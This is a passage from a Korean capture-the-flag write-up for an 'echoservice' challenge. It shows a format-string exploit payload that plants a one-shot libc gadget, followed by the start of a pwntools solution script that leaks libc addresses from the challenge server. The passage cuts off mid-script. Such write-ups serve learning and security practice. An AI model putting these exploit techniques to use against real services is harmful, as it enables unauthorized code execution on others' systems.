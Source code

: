 그리고 이 값을 CALL 하기 때문에 (&payload+0x50)+0x10 위치에 원샷 가젯을 넣습니다.

그러면 최종 페이로드는 다음과 같습니다.

```
payload =  "%13$@" + "ZZZ"
payload += p64(stack_addr)              # RBX (stack_addr) = &payload
payload += "A2"*4
payload += "B1"*4
payload += "B2"*4
payload += p64(1)                       # cond_3 : *cond_3 & 2 != 0 <-- rbx+0x20
payload += "C2"*4
payload += "D1"*4
payload += "D2"*4
payload += p64(stack_addr+0x50)         # RDX will be this value
payload += "E2"*4
payload += p64(stack_addr+0x50)         # RDX (&payload+0x50)
payload += p64(stack_addr+0x50+0x30)    # cond_2 : *[rdx+8] == 0
payload += p64(one_shot)                # RDX + 0x10
payload += "G2"*4
payload += "H1"*4
payload += p64(0x10)                    # cond_1 : < 0x70 and con_4 : >= r9
payload += p64(0)                       # cond_2
```

중간에 제가 컨트롤할 수 없는 값들이 주소에 의해 변경되기 때문에 익스 코드는 한번에 되지 않고 몇번 시도를 해보아야 합니다.

## Solution code

```python
#-*- coding: utf-8 -*-

from pwn import *
context(arch='i386', os='linux')

DEBUG = False

def leak(addr, size, title=""):
	if DEBUG == False:
		return
	print " *** {} : {} ***".format(hex(addr), title)
	print hexdump(p.leak(addr, size))

server = "echo.stillhackinganyway.nl"
port = 1337
target = "./echoservice"

p = None
if len(sys.argv) == 2:
	p = remote(server, port)
else:
	DEBUG = True
	p = process(target)

# %140$lx = stack addr
# &payload = (stack addr - 0x150) - 0x400

payload = "%lx"
p.sendline(payload)
data = p.recv()
libc_addr = int(data.split("] ")[1][:-1], 16) - 0x3c4b40
one_shot  = libc_addr + 0x4526a
print "LIBC    : {}".format(hex(libc_addr))

payload = "%140$lx"
```